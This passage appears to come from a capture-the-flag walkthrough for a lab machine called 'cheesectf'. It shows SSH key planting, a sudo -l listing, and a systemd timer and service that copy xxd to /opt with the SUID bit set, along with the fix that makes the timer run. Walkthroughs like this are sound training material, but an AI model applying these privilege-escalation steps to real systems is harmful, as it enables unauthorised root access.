 Add id_ed25519.pub to authorized_keys and login via ssh

`ssh -i id_ed25519 comte@10.10.204.70`

Check priveleges 
```
sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```
Let's check what we have
```
ç
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target

cat /etc/systemd/system/exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```
If we try to reload the configuration and start the exploit.timer as it is, we will see that it fails.
```
sudo /bin/systemctl daemon-reload
comte@cheesectf:~$ sudo /bin/systemctl start exploit.timer
Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting.
See system logs and 'systemctl status exploit.timer' for details.

systemctl status exploit.timer
\u25cf exploit.timer - Exploit Timer
     Loaded: bad-setting (Reason: Unit exploit.timer has a bad unit file settin>
     Active: inactive (dead)
    Trigger: n/a
   Triggers: \u25cf exploit.service

```
This is due to the OnBootSec value not being present in the unit configuration file.

Change to 
```
[Timer]
OnBootSec=5s
```
And repeat
